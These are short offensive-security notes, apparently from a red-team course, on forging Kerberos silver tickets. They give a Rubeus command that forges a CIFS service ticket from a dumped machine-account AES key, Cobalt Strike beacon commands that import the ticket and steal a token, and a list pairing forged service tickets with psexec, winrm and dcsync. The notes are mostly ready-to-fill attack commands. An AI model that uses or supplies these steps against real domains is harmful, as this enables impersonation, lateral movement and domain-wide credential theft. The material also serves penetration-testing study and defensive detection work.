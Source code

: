 # Domain Dominance Notes

### Silver tickets

a forged service ticket, signed using the secret material (RC4/AES keys) of a computer account.

if we have dumped kerb keys for a machine account we can use them on our windows attacking machine to make a service ticket for a user
```
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /service:cifs/<machine account> /aes256:<key> /user:<user> /domain:<domain> /sid:<domain sid> /nowrap
```

import ticket in beacon
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:<base64>
steal_token 5668
```

Here are some useful ticket combinations:

Technique -	Required Service Tickets
psexec - HOST & CIFS
winrm	- HOST & HTTP
dcsync - (DCs only)	LDAP

